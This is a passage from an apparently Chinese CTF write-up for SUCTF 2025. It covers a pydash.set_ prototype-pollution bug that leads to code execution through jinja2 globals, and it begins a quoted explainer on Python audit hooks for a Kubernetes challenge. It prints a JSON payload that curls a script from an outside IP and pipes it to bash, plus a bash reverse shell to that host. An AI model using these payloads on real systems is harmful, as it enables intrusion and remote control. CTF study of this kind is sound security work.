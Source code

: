 ```py
        print(&#34;Value exceeds 77 characters.&#34;)
        return False
    
    # 将 value 转换为字节串
    value_bytes = value.encode()
    if not check_blacklist(value_bytes, value_blacklist_bytes):
        print(f&#34;Value contains blacklisted words.&#34;)
        return False
    return True
```

`/Admin` 里面用到了 `pydash.set_(user_data, key, value)` ，查到是原型链污染，但是过滤的有点多

#### 0x03 反弹 shell  

![image-20250126183105768](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67960eeb1e8fe.png)

payload ，参考：https://ctftime.org/writeup/36082

```json
{
	&#34;key&#34;: &#34;__class__.__init__.__globals__.__builtins__.__spec__.__init__.__globals__.sys.modules.jinja2.runtime.exported.2&#34;,
	&#34;value&#34;: &#34;*;__import__(&#39;os&#39;).system(&#39;curl http://47.76.93.208:8000/hack.sh | bash&#39;);#&#34;
}
```

hack.sh

```sh
bash -c &#34;bash -i &gt;&amp; /dev/tcp/47.76.93.208/2333 0&gt;&amp;1&#34;
```

访问渲染 admin.html 的页面，点了一下 back to home ，触发反弹

![image-20250126183241888](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67960f4a9aefe.png)

![image-20250126183306944](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67960f639a255.png)

&gt; SUCTF{fl4sk_1s_5imp1e_bu7_pyd45h_1s_n0t_s0_I_l0v3}



### SU_easyk8s

k8s 用都没用过，一点头猪没有，也没搜到太多有用的东西，直接看 wp 吧

#### 0x00 Python Audit Hook RCE

什么玩意，没听说过，查：https://xz.aliyun.com/news/15665

&gt; Audit Hook 是 python 3.8 中引入的特性，使用审计狗子来监控和记录程序运行行为，特别是安全敏感行为，如文件读写、网络通信和动态代码执行等
&gt;
&gt; 审计事件包括但不限于：
&gt;
&gt; `import` : 导入模块
&gt;
&gt; `open` : 打开文件
&gt;
&gt; `exec` : 执行代码
&gt;
&gt; `compile` : 编译代码
&gt;
&gt; `socket` : 创建或使用套接字
&gt;
&gt; `os.system` ， `os.popen` 等 : 执行操作系统命令
&gt;
&gt; `subprocess.popen` ， `subprocess.run` 等 : 启动子进程